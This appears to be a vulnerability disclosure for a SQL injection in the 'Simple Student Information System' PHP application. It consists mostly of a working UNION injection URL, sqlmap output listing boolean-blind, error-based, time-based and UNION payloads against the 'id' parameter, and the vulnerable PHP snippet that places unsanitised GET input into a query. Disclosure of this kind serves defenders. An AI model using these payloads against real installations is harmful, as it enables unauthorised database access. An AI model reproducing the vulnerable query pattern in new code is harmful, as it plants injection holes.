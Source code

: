 # Simple Student Information System SQL Injection

# Vendor Homepage:

https://www.sourcecodester.com



# Source Code Download：

[https://www.sourcecodester.com/php/15147/simple-student-information-system-phpoop-free-source-code.html](https://www.sourcecodester.com/php/15147/simple-student-information-system-phpoop-free-source-code.html)



# SQL Injection

```html
http://192.168.1.8/sis/admin/departments/manage_department.php?id=-5756%27%20UNION%20ALL%20SELECT%20NULL,database(),user(),NULL,NULL,NULL,NULL--%20-
```



![image-20220807005100829](202208070051905.png)

# sqlmap

```php
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 6390=6390 AND 'pzes'='pzes

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' OR (SELECT 4541 FROM(SELECT COUNT(*),CONCAT(0x7178766b71,(SELECT (ELT(4541=4541,1))),0x7176767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'kDKB'='kDKB

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1279 FROM (SELECT(SLEEP(5)))JyND) AND 'LkOx'='LkOx

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=-3131' UNION ALL SELECT NULL,NULL,CONCAT(0x7178766b71,0x526f43536262496c4a647064457565426671674a50436d49484a52677a4a546a654545724c464e6f,0x7176767871),NULL,NULL,NULL,NULL-- -
---
```



# code

`admin/departments/manage_department.php`  line 1-13，

```php
<?php
require_once('../../config.php');
if(isset($_GET['id'])){
    $qry = $conn->query("SELECT * FROM `department_list` where id = '{$_GET['id']}'");
    if($qry->num_rows > 0){
        $res = $qry->fetch_array();
        foreach($res as $k => $v){
            if(!is_numeric($k))
            $$k = $v;
        }
    }
}
?>
```